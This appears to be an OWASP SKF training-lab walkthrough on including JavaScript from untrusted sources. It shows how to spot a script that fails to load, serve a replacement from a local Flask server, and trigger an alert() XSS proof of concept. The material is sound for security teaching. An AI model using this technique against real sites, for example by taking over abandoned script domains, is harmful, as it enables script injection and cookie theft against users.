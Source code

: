 # Include Files From Untrusted Sources (JS)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:java-untrusted-sources
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-untrusted-sources
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

When including third-party functionality, such as a web widget, library, or other source of functionality, the software must effectively trust that functionality. Without sufficient protection mechanisms, the functionality could be malicious in nature (either by coming from an untrusted source, being spoofed, or being modified in transit from a trusted source). The functionality might also contain its own weaknesses, or grant access to additional functionality and state information that should be kept private to the base system, such as system state information, sensitive application data, or the DOM of a web application.

This might lead to many different consequences depending on the included functionality, but some examples include injection of malware, information exposure by granting excessive privileges or permissions to the untrusted functionality, DOM-based XSS vulnerabilities, stealing user's cookies, or open redirect to malware

First, let's check the application to see if there are any sources being loaded in the app that return a 404.

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/1.png)

When inspecting the network tab we see that the application fails to load a JS file to the URL

```
https://localhost:8081/script-provider/javascript.js
```

_note: in a penetration test we would now see if the domain that is used to grab the js source file from is free for us to register_

## Exploitation

#### Step1

Now, in order to leverage a successfull XSS attack we need to set up our own local server on port 8081
that serves the our malicious javascript. You could achieve this in many diferent ways, let's use python flask:

```python
from flask import Flask, send_file, request

app = Flask(__name__, static_folder='.', static_url_path='')

@app.route('/<path:path>')
def send_js(path):
    return send_file(f'script-provider/{path}')

if __name__ == '__main__':
    app.run(port=8081)
```

#### Step2

We ofcourse also need to set the right path where to serve the file from:

```text
./script-provider/javascript.js
```

#### Step3

The content of the JS file that we use to deliver the malicious XSS from looks no more basic than
this:

```text
alert("evil payload");
```

#### Step4

Now it is time to start our web server.

```text
$ pip3 install flask requests send_file
$ python3 app.py
```

#### Step5

We visit the target application where we now find our 'alert' that we coded in our javascript.js file

![](https://raw.githubusercontent.com/blabla1337/skf-labs/master/.gitbook/assets/nodejs/Untrusted-sources/2.png)

## Additional sources

{% embed url="https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion" %}
